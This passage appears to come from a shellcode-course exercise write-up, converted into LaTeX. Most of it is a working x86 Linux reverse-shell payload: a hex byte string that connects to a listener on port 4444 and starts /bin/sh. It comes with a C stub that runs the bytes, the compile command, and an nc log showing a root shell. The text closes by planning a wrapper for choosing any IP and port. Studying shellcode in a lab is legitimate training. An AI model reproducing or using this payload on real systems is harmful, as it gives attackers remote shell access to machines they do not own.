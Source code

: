 \documentclass[11pt]{article}
\begin{document}
and try it in our shellcode.c stub program.

\begin{verbatim}
#include<stdio.h>
#include<string.h>

unsigned char code[] = \
"\x31\xc0\xb0\x66\x31\xdb\xb3\x01\x31\xc9\x51\x53\x6a\x02\x89\xe1"
"\xcd\x80\x31\xff\x89\xc7\x31\xc0\xb0\x66\x31\xc9\xb9\x80\x01\x01"
"\x02\x81\xe9\x01\x01\x01\x01\x51\x66\x68\x11\x5c\x43\x66\x53\x89"
"\xe1\x6a\x10\x51\x57\x89\xe1\x43\xcd\x80\x31\xc9\xb1\x02\x31\xc0"
"\xb0\x3f\xcd\x80\x49\x79\xf9\x31\xc0\xb0\x0b\x31\xdb\x53\x68\x2f"
"\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x31\xd2\xcd\x80";


main()
{

  printf("Shellcode Length:  %d\n", strlen(code));

  int (*ret)() = (int(*)())code;

  ret();

}
\end{verbatim}

\verb~gcc shellcode.c -o shellcode~

It still works at a length of 96 bytes:

\begin{verbatim}
root@blahblah:~/shared/SLAE/slae/exercise2# nc -nlvp 4444
listening on [any] 4444 ...
connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 37310
id
uid=0(root) gid=0(root) groups=0(root)
\end{verbatim}

So once again, we can always go back and optimize length but the
last thing we need to do is write another wrapper program which
will allow us to set the IP and PORT easily. Lets use our previous
python script as a starting point. We need to remember though that
whatever IP address a user enters that we want to increment each
octet so the math in the assembly works out:
\end{document}

